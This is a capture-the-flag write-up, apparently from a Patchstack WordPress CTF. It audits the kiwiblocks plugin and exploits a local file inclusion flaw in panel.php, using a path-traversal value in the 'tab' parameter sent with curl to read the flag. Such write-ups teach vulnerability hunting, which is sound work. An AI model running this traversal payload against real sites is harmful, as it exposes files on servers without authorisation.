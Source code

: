 # A Nice Block

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 20 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

I like the new Gutemberg editor, so I just installed a plugin with beautiful blocks addons. That's a great plugin that perfectly matches my design needs, I don't think it could cause a security issue, right?

This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224190052.png)

## Enumeration

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/attachment.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:08(HKT)]
└> file attachment.zip                 
attachment.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:09(HKT)]
└> unzip attachment.zip 
Archive:  attachment.zip
   creating: server-given/
  inflating: server-given/deploy.sh  
  inflating: server-given/Makefile   
   creating: server-given/challenge-custom/
 extracting: server-given/challenge-custom/flag.txt  
[...]
  inflating: server-given/Dockerfile  
  inflating: server-given/.env       
  inflating: server-given/docker-compose.yml  
```

Throughout this CTF, it's recommended that in all challenges we first look at what plugins/themes are installed. To automate this process, the challenge authors used [GNU make](https://www.gnu.org/software/make/) and [WP-CLI](https://wp-cli.org/) to set up the WordPress site. The `Makefile` located in path `server-given/docker/wordpress/toolbox/Makefile`:

```bash
    [...]
    $(WP_CLI) plugin activate kiwiblocks
```

In here, this WordPress site has installed a plugin called `kiwiblocks`, which is located in path `server-given/challenge-custom/kiwiblocks`.

To debug this plugin more effectively, I'll use a [Docker configuration from Wordfence Discord written by Ramuel](https://discord.com/channels/1197901373581303849/1199013923173712023/1199041121322537115) to debug the plugin with [Xdebug](https://xdebug.org/). 

After building and starting the Docker containers, we can `zip` the plugin and upload it to our WordPress site:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/server-given/challenge-custom)-[2025.02.23|16:55:37(HKT)]
└> cd server-given/challenge-custom; zip -r kiwiblocks.zip kiwiblocks
  adding: kiwiblocks/ (stored 0%)
  adding: kiwiblocks/src/ (stored 0%)
  adding: kiwiblocks/src/global.js (deflated 70%)
  [...]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184255.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184322.png)

After activating the plugin, we'll be redirected to `/wp-admin/admin.php?page=kiwiblocks`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184429.png)

As the challenge's description says, this plugin has some blocks addons.

Now we can read this plugin's source code!

When I audit a plugin, I always find all the registered AJAX actions and REST API's routes. For instance, the following AJAX action `kiwiblocks_bordered`:

```php
class Kiwiblocks_Bordered extends Kiwiblocks_Block{
    [...]
    function __construct(){
        $this->name = 'bordered';
        [...]
        add_action( 'wp_ajax_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
        add_action( 'wp_ajax_nopriv_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
    }
}
```

However, none of those AJAX actions and API routes are useful to us.

Another method that I hunt for vulnerabilities is via the "[sources and sinks model](https://www.youtube.com/watch?v=ZaOtY4i5w_U)", where **sources are user inputs**, and **sinks are dangerous functions**.

After a few searches, we can see that one of many LFI (Local File Inclusion) sinks, **`include_once`**, is used in the following:

`wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`:

```php
<?php
    [...]
    $tab = isset($_GET['tab']) ? $_GET['tab'] : 'general.php';
    try
    {
        @include_once __DIR__ . '/tabs/' . $tab;
    }
    catch(Throwable $e)
    {
        [...]
    }
```

As you can see, the source, **GET parameter `tab`**, is flow to the sink.

Also, there is no PHP code that **disallow us from directly accessing this PHP script** like the following:

```php
// Exit if accessed directly.
if ( ! defined( 'ABSPATH' ) ) {
    exit;
}
```

With that said, we found a **LFI vulnerability at path `wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`**!

## Exploitation

Armed with the above information, we can get the flag via sending the following GET request:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.24|18:58:45(HKT)]
└> curl --get http://52.77.81.199:9100/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php --data 'tab=../../../../../../../../../../../../flag.txt' 
<h1 class="kiwi_title">Kiwiblocks</h1>

<div class="kiwi_panel">

    CTF{TABBING_THE_TAB_0z933}
</div>
```

- **Flag: `CTF{TABBING_THE_TAB_0z933}`**

## Conclusion

What we've learned:

1. Local File Inclusion (LFI)